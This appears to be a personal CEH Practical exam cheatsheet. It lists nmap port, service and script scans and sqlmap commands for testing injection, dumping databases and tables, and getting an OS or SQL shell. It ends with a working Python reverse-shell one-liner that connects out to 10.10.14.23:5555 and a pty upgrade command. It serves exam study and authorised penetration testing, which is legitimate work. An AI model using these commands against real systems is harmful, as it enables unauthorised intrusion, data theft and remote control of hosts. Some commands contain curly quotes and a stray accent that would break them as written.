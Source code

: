 # CEH-Practical-Cheatsheet
For this exam I'm writing

## NMAP

- Scan a single IP	            	 `nmap 192.168.1.1`
- Scan a host	                    `nmap www.testhostname.com`
- Scan a range of IPs	            `nmap 192.168.1.1-20`
- Scan a subnet	                    `nmap 192.168.1.0/24`
- Scan targets from a text file	    `nmap -iL list-of-ips.txt`

- Scan a single Port	                `nmap -p 22 192.168.1.1`
- Scan a range of ports	            `nmap -p 1-100 192.168.1.1`
- Scan 100 most common ports (Fast)	`nmap -F 192.168.1.1`
- Scan all 65535 ports	            `nmap -p- 192.168.1.1`

- Scan using TCP connect	                `nmap -sT 192.168.1.1`
- Scan using TCP SYN scan (default)	    `nmap -sS 192.168.1.1`
- Scan UDP ports	                        `nmap -sU -p 123,161,162 192.168.1.1`
- Scan selected ports - ignore discovery	`nmap -Pn -F 192.168.1.1`

- Detect OS and Services	            `nmap -A 192.168.1.1`
- Standard service detection	        `nmap -sV 192.168.1.1`
- More aggressive Service Detection	    `nmap -sV --version-intensity 5 192.168.1.1`
- Lighter banner grabbing detection	    `nmap -sV --version-intensity 0 192.168.1.1`

- Save default output to file	        `nmap -oN outputfile.txt 192.168.1.1`
- Save results as XML	                `nmap -oX outputfile.xml 192.168.1.1`
- Save results in a format for grep	    `nmap -oG outputfile.txt 192.168.1.1`
- Save in all formats	                `nmap -oA outputfile 192.168.1.1`


- Scan using default safe scripts	    `nmap -sV -sC 192.168.1.1`
- Get help for a script	                `nmap --script-help=ssl-heartbleed`
- Scan using a specific NSE script	    `nmap -sV -p 443 –script=ssl-heartbleed.nse 192.168.1.1`
- Scan with a set of scripts	        `nmap -sV --script=smb* 192.168.1.1`

- Gather page titles from HTTP services	`nmap --script=http-title 192.168.1.0/24`
- Get HTTP headers of web services	    `nmap --script=http-headers 192.168.1.0/24`
- Find web apps from known paths	        `nmap --script=http-enum 192.168.1.0/24`


## SQLMAP

- Simple usage `sqlmap -u “https://target_site.com/page/”`
- Automatic GET request parameter `sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”`
- Use POST request `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"`
- Request file as input(get it from Burpsuite) `sqlmap -r request.txt`
- Use authenticated session with cookie `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"`
- Use authenticated session with auth headers `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"` 
- Basic authentication `sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password`

# Post exploitation(use these if the SQLi vuln is positive)

- List databases `sqlmap -u “https://target_site.com/page?p1=value1” --dbs`
- List tables of TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables`
- List columns of TARGET_TABLE in TARGET_DB `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns`
- Dump specific data of columns `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump`
- Fully dump table `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump`
- Dump the entire database `sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump`
- Custom SQL query `sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"`
- Get OS shell `sqlmap -u “https://target_site.com/page?p1=value1” --os-shell`
- Get SQL shell `sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell`
- Use attack techniques `sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ`
    - B: Boolean-based blind
    - E: Error-based
    - U: Union query-based
    - S: Stacked queries
    - T: Time-based blind
    - Q: Inline queries

### General purpose command

`sqlmap -u “https://target_site.com/page/”--proxy="http://127.0.0.1:8080/" --cookie=”SESSID=lred0jr6na1vmci;” --data=”p1=value1” -p p1 --level=5 --risk=3 --dbms=mysql --technique=BEUSTQ --force-ssl`

## Shells

"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### after obtaininh shell

python -c 'ímport pty;pty.spawn("/bin/sh")'